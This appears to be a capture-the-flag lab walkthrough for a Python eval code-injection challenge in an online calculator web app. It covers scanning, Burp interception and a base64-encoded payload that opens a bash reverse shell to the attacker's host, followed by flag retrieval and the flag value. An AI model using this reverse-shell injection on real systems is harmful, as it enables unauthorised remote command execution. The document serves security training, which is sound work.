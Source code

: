 ﻿![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Online Calculator - Code Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1929>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the webapp. 

When the lab starts up, the Online Calculator webapp opens up in the browser: 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.003.jpeg)

Perform some calculations to know its working: ![ref2]


![ref1]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.005.jpeg)

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.006.jpeg)

![ref1]

**Step 2:** Scan the target machine using nmap. **Command:** nmap -sS -sV online-calc.com 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.007.jpeg)

On the target machine, 2 services are running. One is using port 5000 (on which the webapp is available) and on port 8000, a Python HTTP Server is running. 

**Step 3:** Configure Burp proxy to intercept the file upload requests. ![ref2]

Configure the browser to use the Burp proxy listener as its HTTP Proxy server: 

Using FoxyProxy addon to setup HTTP Proxy profile for the browser: Click on the icons for FoxyProxy on the top left. 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.008.png)

Select Burp Suite profile from the list. 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.009.png)

Launch BurpSuite. ![ref2]

Select Web Application Analysis > burpsuite 


![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.010.png)

The following window will appear: ![ref2]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.011.jpeg)

![ref1]

Click Next. 

Finally, click Start Burp in the following window: 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.012.jpeg)

The following window will appear after BurpSuite has started: ![ref2]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.013.jpeg)

**Step 4:** Inspect the requests and determine the vulnerability in the webapp. 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.014.png)

Evaluate the above expression’s value. 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.015.jpeg)

The request would be intercepted by Burp Suite. Forward the above request. ![ref2]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.016.jpeg)

Notice that the application sends the expression to the Python server running on port 8000 on the target machine. 

Also notice that the target machine has IP address 192.16.92.3 Forward the above request and notice the response on the webapp: ![ref2]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.017.png)

As mentioned in the challenge description, the server is using the eval function of Python to evaluate the expressions and get the results. 

Notice that the response is a decimal value. But in Python the expression: eval("01/5")  returns 0. 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.018.png)

So the backend must be making some changes to the “/” to get decimal values as response. **Note:** Turn off the intercept mode in Burp Suite for any of the future requests. 

Now, send the above payload: 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.019.png)

Notice the response: ![ref2]


![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.020.png)

So, “/” gets converted to “ \* 1.0 /”. 

So, if the expression was: 1 / 2 It will become: 1 \* 1.0 / 2 

And that was how the application was generating the decimal values in the result. **Step 5:** Perform code injection on the webapp. 

Since the eval function is used and the “/“ character would be manipulated, encoding the payload as base64 to avoid any payload modifications on the backend: 

**Payload:** echo 'bash -c "bash -i >& /dev/tcp/192.16.92.2/4444 0>&1"' | base64 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.021.png)

**Note:** In case the base64-encoded commands contains a “/” character, then the command must be base64-encoded again to remove it. Any other encoding scheme that would decode it would also work. 

Before sending the above payload to the server, run a netcat listener on the host: ![ref2]**Command:** nc -lvp 4444 

![ref1]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.022.png)

Send the above base64-encoded payload to the backend server to get the terminal session: 

**Payload:** \_\_import\_\_("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTYuOTIuMi80NDQ0IDA+JjEiCg== | base64 -d | bash") 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.023.png)

Check the response in the terminal: ![ref2]

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.024.jpeg)

**Step 6:** Retrieving the flag. 

**Commands:** 

find / -name flag 2>/dev/null cat /tmp/flag 

![](Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.025.png)

**Flag:** 2033ccb9fb15fb6a83c07bf96d467ac2 **References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. A1: Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion.html](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection.html)) 

[ref1]: Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.002.png
[ref2]: Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.004.png

